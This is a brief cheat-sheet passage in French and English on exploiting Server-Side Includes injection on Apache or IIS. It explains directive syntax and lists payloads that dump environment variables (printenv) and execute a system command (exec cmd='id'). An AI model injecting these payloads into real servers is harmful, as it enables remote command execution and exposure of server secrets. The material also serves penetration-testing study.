 
SSI est supporté par les serveurs tels que Apache ou IIS.

Extension de page en shtm, stm, shtml ... Ou activé sur des extensions courantes.

SSI utilizes `directives` to add dynamically generated content to a static HTML page. These directives consist of the following components:

- `name`: the directive's name
- `parameter name`: one or more parameters
- `value`: one or more parameter values

```ssi
<!--#name param1="value1" param2="value" -->
```

# Exploiter la SSIi


```ssti
<!--#printenv -->
```

### RCE

```
<!--#exec cmd="id" -->
```